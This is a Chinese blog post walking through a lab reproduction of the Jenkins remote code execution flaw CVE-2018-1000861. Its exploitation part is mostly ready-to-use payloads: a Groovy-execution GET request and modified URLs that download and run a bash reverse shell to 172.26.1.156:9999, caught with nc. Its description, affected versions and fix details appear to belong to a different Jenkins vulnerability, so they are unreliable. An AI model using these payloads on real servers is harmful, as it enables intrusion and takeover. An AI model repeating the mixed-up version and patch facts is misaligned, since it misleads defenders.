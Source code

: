 ```yaml
---
title: "CVE-2018-1000861 复现"
date: 2019-11-06T14:32:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

最近在整理Jenkins相关漏洞,所以来复现下!!

<!--more-->


### 1. 漏洞描述
	Jenkins使用XStream库来序列化和反序列化XML。它的维护者最近发布了一个安全漏洞，任何能够向Jenkins提供XML并使用XStream的用户都可以使Java进程崩溃。Jenkins中，这通常适用于有权创建或配置项目（作业），视图或代理的用户。

### 2. 漏洞原理
	该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 3. 影响范围
	Jenkins Version <= 2.56
	
	Jenkins LTS Version <= 2.46.1

### 4. 漏洞利用
环境搭建:

直接使用vulhub上的环境即可(徐安装好docker和docker-compose)

(1) 下载vulhub项目,然后进入到  vulhub/jenkins/CVE-2018-1000861目录下

(2)  执行命令:

```
docker-compose up -d
```
来启动环境
(3) 访问: [http://172.26.1.156:8080/](http://172.26.1.156:8080/)

![图片](https://uploader.shimo.im/f/FuGj0OkqoDIqYk4z.png!thumbnail)

漏洞复现:

1. 此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}
```
2. 我们这里采取下载文件的方法来反弹shell

 (1) 先在我们的服务器上防止一个文本,内容为:

```
bash -i >& /dev/tcp/172.26.1.156/9999 0>&1
```
 (2) 然后我们替换POC中执行命令的部分为下载文件的命令:
```
curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}
```
 (3) 给予下载的脚本执行权限:
```
chmod 777 /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}
```
 (4) 然后在我们接收shell的机器上监听之前写的端口:
```
nc -lvvp 9999
```
 (5)  直接bash执行我们下载的脚本
```
bash /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}
```
 (6) 回到我们监听端口的机器:
![图片](https://uploader.shimo.im/f/QRsn3axMoXox0OVa.png!thumbnail) 可以看到已经成功获取到了shell!

3. 这里提供一个GitHub上的利用脚本:

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

执行案例:

![图片](https://uploader.shimo.im/f/acYdWjpVrEM8SIjm.png!thumbnail)

### 5. 漏洞防御
1）由于漏洞危害较大（直接获取系统权限），且目前已有漏洞利用工具，Jenkins官方已修复上述漏洞，并将SignedObject添加到远程黑名单中。建议您尽快对照检查自己所用的Jenkins是否在受影响范围，如受影响，请及时进行升级操作。

a：Jenkins主版本用户需升级到2.58版本

b：Jenkins LTS 版本用户需升级到2.46.2版本

下载链接：[https://jenkins.io/download/](https://jenkins.io/download/)

2）与此同时，建议您针对您的Jenkins后台进行安全加固，在安全组设置仅允许指定的办公IP可以访问管理，禁止对所有非授权用户的访问。

### 6. Reference
[https://blog.csdn.net/JiangBuLiu/article/details/95487423](https://blog.csdn.net/JiangBuLiu/article/details/95487423)

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

